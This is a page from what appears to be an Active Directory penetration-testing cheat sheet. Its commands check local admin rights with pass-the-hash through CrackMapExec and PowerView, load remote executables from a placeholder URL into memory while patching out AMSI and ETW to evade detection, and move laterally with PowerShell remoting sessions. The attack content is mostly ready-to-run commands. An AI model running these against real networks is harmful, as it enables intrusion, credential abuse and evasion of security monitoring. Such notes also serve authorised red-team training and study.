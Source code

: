 ## Check Local Admin Access
#### Crackmapexec
```
cme smb <COMPUTERLIST> -d <DOMAIN> -u <USER> -H <NTLM HASH>
```

#### Powerview
```
Find-LocalAdminAccess -Verbose
```

### Other scripts
```
. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```

```
. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

## Offensive .NET
- https://github.com/Flangvik/NetLoader
- Load binary from filepath or URL and patch AMSI & ETW while executing
```
C:\Users\Public\Loader.exe -path http://xx.xx.xx.xx/something.exe
```

#### Use custom exe Assembyload to run netloader in memory and then load binary
```
C:\Users\Public\AssemblyLoad.exe http://xx.xx.xx.xx/Loader.exe -path http://xx.xx.xx.xx/something.exe
```

## Lateral Movement Techniques

### PSSession
- Uses winrm / wmi
#### Save pssession in variable
```
$sess = New-PSSession -Credential $creds -ComputerName <IP>
```

#### Run commands on machine
```
Invoke-Commannd -ScriptBlock {<COMMAND>} -Session $sess
```

#### Run commands on multiple machines
```
Invoke-Command –Scriptblock {<COMMAND>} -ComputerName (Get-Content computers.txt)
```
